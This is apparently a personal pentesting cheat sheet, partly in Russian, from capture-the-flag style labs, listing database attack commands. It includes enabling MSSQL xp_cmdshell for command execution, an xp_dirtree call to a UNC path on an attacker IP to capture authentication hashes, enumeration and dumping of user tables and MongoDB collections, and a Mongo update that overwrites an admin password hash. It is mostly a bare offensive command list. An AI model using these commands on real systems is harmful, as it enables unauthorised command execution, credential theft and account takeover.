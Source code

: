 export KRB5CCNAME=sqlsvc.ccache

или по TGS - также но с генерацией TGS

---Включить вполнени xp_cmdshell

enable_xp_cmdshell

reconfigure

xp_cmdshell

xp_dirtree "\\10.10.14.42\sass"  --- перейти по адресу с аутентификацией

exec xp_dirtree 'c:/';

********************
   
       enum_db
       USE flagDB;
       SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_CATALOG = 'flagDB';
       SELECT * FROM tb_flag;


       
       select name from sys.databases;  (перечислить все базы данных)

       select TABLE_NAME from ScrambleHR.INFORMATION_SCHEMA.TABLES;

        select * from ScrambleHR.dbo.Employees; (выбрать все из таблицы ScramblerHR)

        select * from wp_users \G (в удобном виде)

        describe wp_users; (описать таблицу)

# mongodb
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"

mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'

снаружи

mongo mongodb://10.129.142.102:27017

show dbs;
use {dbs_name};
show collections;
show tables;

db.{collect_name}.find().pretty();

select * from wp_users \G (в удобном виде)

сдампить монго 
       
        mongodump

        bsondump users.bson |jq .

# postgres

